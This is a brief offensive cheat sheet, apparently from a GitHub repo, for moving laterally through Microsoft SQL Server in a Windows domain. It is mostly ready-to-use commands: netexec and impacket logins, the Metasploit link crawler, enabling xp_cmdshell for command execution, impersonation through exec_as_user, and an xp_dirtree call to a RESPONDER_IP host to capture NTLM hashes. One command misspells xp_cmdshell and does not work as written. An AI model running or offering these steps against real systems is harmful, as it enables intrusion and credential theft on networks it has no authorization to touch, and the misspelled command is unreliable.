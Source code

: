 # MSSQL Lateral Movement

## Tools: CrackMapExec/Netexec , impacket-mssqlclient

 - netexec mssql IP -u USER -p PASSWORD -d DOMAIN (Find mssql access)

 - MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p (Users with SQL Admin bloodhound cypher query)

### Trust Link

#### 1) Metasploit

 - use exploit/windows/mssql/mssql_linkcrawler

#### 2) Powershell MSSQL Module

 - Get-SQLServerLinkCrawl -username USERNAME -password PASSWORD -Verbose -Instance SQL_INSTANCE -Query "SQL_QUERY"

#### 3) impacket-mssqlclient

 - impacket-mssqlclient -windows-auth DOMAIN/USER:PASSWORD@IP

### Commands upon login:

 - enum_db

 - enable xp_cmdshell --> xp_cmdshell COMMAND (Gives low access shell)

 - EXEC MASTER.sys.xp_dirtree '\\RESPONDER_IP\test', 1, 1 (Coerce SMB. NTLM Hash Capture)

 - trustlink --> sp_linkedservers --> use_link (MSSQL Lateral Movement)

 - enum_impersonate --> exec_as_user USER

 - enum_impersonate --> exec_as_login LOGIN

#### 4) MSSQL Client shell

 - EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;

 - EXECUTE sp_configure 'xp_cmdhsell',1; RECONFIGURE;

 - EXEC xp_cmdshell 'COMMAND' (Gains low access shell)
